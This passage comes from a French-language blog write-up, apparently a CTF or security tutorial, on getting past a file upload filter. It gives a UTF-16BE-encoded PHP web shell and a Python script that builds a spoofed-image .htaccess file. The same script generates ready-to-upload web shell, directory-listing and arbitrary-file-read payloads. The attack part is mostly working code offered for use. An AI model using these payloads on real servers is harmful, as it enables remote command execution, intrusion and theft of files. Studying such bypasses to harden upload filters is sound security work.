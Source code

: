 Or, en utf-16 l'encodage est effectué sur **2 octets**.

```php
00000000: 003c 003f 0070 0068 0070 0020 0073 0079  .<.?.p.h.p. .s.y
00000010: 0073 0074 0065 006d 0028 0024 005f 0047  .s.t.e.m.(.$._.G
00000020: 0045 0054 005b 0027 0063 006d 0064 0027  .E.T.[.'.c.m.d.'
00000030: 005d 0029 003b 0020 0064 0069 0065 0028  .].).;. .d.i.e.(
00000040: 0029 003b 0020 003f 003e 0a              .).;. .?.>.
```

Il a été choisi ici un encodage **utf-16 Big Endian**. Le premier caractère `<` s'écrira donc `003c` en utf-16 au lieu de `3c` en utf-8. Avec cette astuce, le filtre est contourné.

Voici un petit script python pour automatiser la création de payload.

```python
#!/usr/bin/env python3
# Description : create and bypass file upload filter with .htaccess
# Author : Thibaud Robin

# Will prove the file is a legit xbitmap file and the size is 1337x1337
SIZE_HEADER = b"\n\n#define width 1337\n#define height 1337\n\n"

def generate_php_file(filename, script):
	phpfile = open(filename, 'wb') 
	phpfile.write(script.encode('utf-16be'))
	phpfile.write(SIZE_HEADER)
	phpfile.close()

def generate_htacess():
	htaccess = open('..htaccess', 'wb')
	htaccess.write(SIZE_HEADER)
	htaccess.write(b'AddType application/x-httpd-php .php16\n')
	htaccess.write(b'php_value zend.multibyte 1\n')
	htaccess.write(b'php_value zend.detect_unicode 1\n')
	htaccess.write(b'php_value display_errors 1\n')
	htaccess.close()
		
generate_htacess()

generate_php_file("webshell.php16", "<?php system($_GET['cmd']); die(); ?>")
generate_php_file("scandir.php16", "<?php echo implode('\n', scandir($_GET['dir'])); die(); ?>")
generate_php_file("getfile.php16", "<?php echo file_get_contents($_GET['file']); die(); ?>")
generate_php_file("info.php16", "<?php phpinfo(); die(); ?>")
```

Il n'y a plus qu'à déposer et apprécier sa webshell bien méritée. Ouf ! 😂

![](/images/bypass-file-upload/2023-10-05-16-56-26.png)

![](/images/bypass-file-upload/2023-10-05-16-56-29.png)

## Conclusion
